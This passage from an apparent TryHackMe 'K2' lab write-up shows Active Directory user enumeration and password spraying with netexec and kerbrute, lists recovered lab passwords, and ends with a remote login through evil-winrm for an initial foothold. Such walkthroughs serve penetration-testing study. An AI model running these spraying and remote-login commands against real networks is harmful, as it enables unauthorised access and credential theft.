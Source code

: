 And let's add to that all the passwords we currently have. 

```
Pwd@9tLNrC3!
RdzQ7MSKt)fNaz3!
vRMkaVgdfxhW!8
```

#### NetExec Method

With the list of potential users and our passwords list from the previous machine we can enumerate users.

```
netexec smb K2Server.k2.thm -u potential_AD_users.txt -p found_pwds.txt
```

![netexec AD enumeration](/images/THM-K2/valid_creds_k2AD.png)

The credentials `r.bud:vRMkaVgdfxhW!8` are found to be valid!

> Keep in mind that using netexec for AD enumeration **will not work if null authentication is disabled**. This is because we would need to provide valid credentials (username and password) to authenticate with the SMB services to perform the enumeration.

#### Kerbrute Method

Kerbrute can also be used to find the valid usernames.

```
./kerbrute userenum --dc K2Server.k2.thm -d k2.thm potential_AD_users.txt 
```

![kerbrute AD enumeration](/images/THM-K2/k2_valid_AD_usernames.png)

We can then spray our found passwords against the users.

```
./kerbrute bruteuser --dc K2Server.k2.thm -d k2.thm found_pwds.txt j.bold

./kerbrute bruteuser --dc K2Server.k2.thm -d k2.thm found_pwds.txt r.bud
```

![kerbrute credentials brute forcing](/images/THM-K2/rose_bud_kerbrute.png)

> Kerbrute will work regardless of whether null authentication is enabled or disabled. It is designed to brute-force usernames or passwords against a **Kerberos authentication** service.

## Initial Foothold (shell as rose)

With the valid credentials we login with evil-winrm.

```
evil-winrm -i k2.thm -u r.bud -p "vRMkaVgdfxhW\!8"
```

![K2-Middle Camp foothold](/images/THM-K2/foothold_k2MC.png)
